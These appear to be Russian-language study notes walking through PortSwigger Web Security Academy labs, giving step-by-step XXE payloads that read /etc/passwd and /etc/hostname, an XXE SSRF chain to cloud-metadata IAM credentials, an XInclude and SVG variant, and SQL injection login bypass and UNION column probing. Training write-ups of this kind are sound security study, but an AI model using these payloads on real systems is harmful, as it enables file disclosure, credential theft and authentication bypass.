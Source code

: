1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 
2)выбрать продукт, 
3)нажать *Check stock*, 
4)перехватить Post запрос через BURP 
5) после объявления xml добавить
''' <!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> '''
6)заменить product id число на &res; 
7)после этого просто отправить запрос и в ответе придёт /etc/passwd

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
те же действия, что и в предыдущей. до пункта 4) 
5)после объявления xml добавить:
'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>'
6)заменить product id на &res; отправить запрос, 
7)в ответе придет latest - добавить его к адресу и получим 
'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 'и так далее, 
n+1)в итоге получаем '<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>', что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5)в *product id* вставить '''<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> '''
6)в ответ придёт /etc/passwd

4.
1) 2) выбрать статью 
3)нажать отправить комментариq(заполнить все поля предварительно) 
4)перехватить запрос через Burp
5)в поле для картинки вставить: 
'''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>'''
svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)


1. https://portswigger.net/web-security/sql-injection/lab-login-bypass
1) в графе login ввести administrator'--
2.https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 
1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице
2)заменяем NULL по очереди на 'HmnfQ2' - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 
3)второй столбец оказался верным - выводится результат
